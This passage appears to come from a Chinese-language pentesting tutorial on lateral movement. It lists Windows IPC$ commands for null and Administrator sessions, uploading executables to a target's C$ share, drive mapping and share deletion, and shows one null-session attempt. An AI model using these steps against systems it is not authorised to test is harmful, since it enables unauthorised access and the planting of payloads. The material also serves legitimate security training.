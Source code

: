```

8.错误号2242:此用户的密码已经过期。例如：目标机器设置了账号管理策略，强制用户定期修改密码。
```

# 2. 横向移动常用命令

## 2.1. IPC命令介绍

这里主要介绍一下常用命令，对一些常见的命令进行演示，同时也是后期在横向移动的时候，会使用到的一些命令。

```
net use \\192.168.*.*\ipc$ "" /u:""                         #建立空连接
net use \\192.168.*.*\ipc$ "密码" /user:"Administrator"     #建立正常连接
net use                               #查看本机连接共享情况
dir \\xx.xx.xx.xx\C$\                 #查看文件列表
net view \\192.168.*.*                #查看已建立连接目标主机的共享资源
net time \\192.168.*.*                #查看目标主机时间
nbtstat -A 192.168.*.*                #查看目标主机的NetBIOS用户（自己本机也需开启）
net use \\192.168.*.*\ipc$ /del /y    #删除本机与指定ip建立的连接
net use * /del /y                     #删除本机所有已建立的连接
copy 1.exe \\192.168.*.*\c$\windows\temp\1.exe    #文件的上传下载
copy vps.exe \192.168.*.*\c$          #将本目录下的指定文件复制到目标系统中
xcopy d:\sqlitedata\*.* \\192.168.*.*\c$\temp /E /Y /D         #上传本地文件到目标的:c\windows\temp\目录下
copy \\192.168.*.*\c$\plugin_update.exe c:\                    #下载目标文件到本地c盘下
net share c$ /del                     #删除默认共享
net share c$=c:                       #恢复默认共享
net use z: \\192.168.*.*\c$ "密码" /user:"administrator"   #映射路径：对方的c盘映射为自己的z盘(其他盘类推)
net use z: \\192.168.*.*\c$   #访问
net use c: /del               #删除映射的c盘
net use * /del                #删除全部,会有提示要求按y确认
```

### 2.1.1. IPC常用命令演示

只演示一些常用的命令，其它的命令可以自行操作，同时需要注意，部分情况下，在遇到目标主机是在域环境内，那么就需要使用域名\administrator来作为用户进行连接。

#### 2.1.1.1. 建立空连接

这里我建立空连接，会提示无法访问，这是由于目标主机做了一些限制，会导致无法建立空连接，但同时就算能够建立空连接，但是也无法使用。

```
net use \\192.168.10.100\ipc$ "" /u:""
```
